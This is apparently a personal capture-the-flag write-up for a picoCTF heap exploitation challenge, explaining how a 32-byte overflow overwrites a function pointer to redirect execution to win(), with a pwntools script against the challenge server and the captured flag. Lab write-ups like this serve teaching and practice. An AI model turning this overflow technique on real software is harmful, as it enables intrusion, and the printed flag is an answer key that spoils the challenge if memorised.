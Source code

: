 ```yaml
---
created: 2024-08-08T01:09
updated: 2024-08-08T01:15
---
```


Just like `heap 1` we need to overwrite `x`.

| Variable     | Address     | Data   |
| ------------ | ----------- | ------ |
| `input_data` | `0x1d902b0` | `pico` |
| `x`          | `0x1d902d0` | `bico` |

But this time `x` will be used as a pointer and run.

We want it to point to `win()` of course.

Since we are in the 64bit world the pointer should be 64 bit too.

```python
from pwn import *
elf = context.binary = ELF("./chall")
t = remote('mimas.picoctf.net', 59926)
# t = elf.process()
t.sendlineafter(b": ", b"2")
t.sendlineafter(b": ", b"A"*32+p64(elf.symbols['win']))
t.sendlineafter(b": ", b"4")
info(t.recvall())
```

```flag
picoCTF{and_down_the_road_we_go_dde41590}
```
